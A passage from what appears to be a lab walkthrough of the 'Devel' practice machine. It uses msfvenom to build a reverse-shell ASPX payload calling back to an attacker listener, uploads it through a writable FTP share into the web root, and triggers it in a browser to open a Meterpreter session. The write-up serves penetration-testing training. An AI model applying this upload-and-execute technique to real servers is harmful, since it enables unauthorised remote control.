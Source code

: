- so files that a placed in the FTP server are actually in the web server directory
- so we will create a malicious aspx payload using msfvenom
```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.11 LPORT=4444 -f aspx >reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2867 bytes
```

- then we transfer the aspx file to the FTP server

![](assets/Devel_assets/Pasted%20image%2020230616065029.png)

- so we will also set up our metasploit listener using handler

![](assets/Devel_assets/Pasted%20image%2020230616065212.png)

- after setting up the listener, we can then go to `http://10.10.10.5/reverse.aspx` on our browser and this we will execute the aspx file and we have a meterpreter session open

![](assets/Devel_assets/Pasted%20image%2020230616065159.png)
